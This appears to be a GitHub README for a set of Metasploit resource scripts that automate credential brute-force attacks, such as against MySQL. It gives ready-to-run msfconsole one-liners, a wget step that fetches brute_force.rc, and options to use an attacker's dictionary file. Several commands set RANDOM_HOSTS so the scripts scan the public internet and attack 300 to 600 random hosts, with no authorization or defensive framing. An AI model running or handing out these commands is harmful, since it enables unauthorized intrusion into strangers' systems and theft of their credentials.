 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because at next time run if the database contains any hosts, the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by current scans.</blockquote>

- The msfconsole database must be empty (**clean**) at resource script execution.<br />
`msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />

- Brute force resource scripts will build one logfile in **/root** directory.<br />
`/root/<resource_script_name>.log`<br /><br />

**Brute force resource scripts deletes msfconsole database at exit (default).**<br />
- To continue populating database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- To export database contents to database.xml local folder (optional)<br />
`msfconsole -q -x 'db_export -f xml database.xml;exit -y'`

![pic](http://i67.tinypic.com/2wfi88h.png)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run the resource scripts in 3 diferent ways:</blockquote>

- execute resource script **( Scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`

- 3º clean msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`

- 4º run brute_force.rc resource script to search hosts on WAN<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/brute_force.rc'`

<br />

**HINT:** Brute force rc scripts requires the database to be empty, thats the reason why the script
cleans the database at exit, because at next time run if database contains any hosts, the script
will run the attacks againts database hosts (old hosts) and not the hosts found by current scans.

- 5º To populate the database with scans, just instruct the rc script to not clean db (optional)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg RANDOM 600;resource /root/brute_force.rc'`

- 6º To export database contents to database.xml local folder (optional)<br />
`msf > db_export -f xml database.xml`

![pic](http://i67.tinypic.com/2wfi88h.png)

### Suspicious Shell Activity RedTeam @2019

<br />

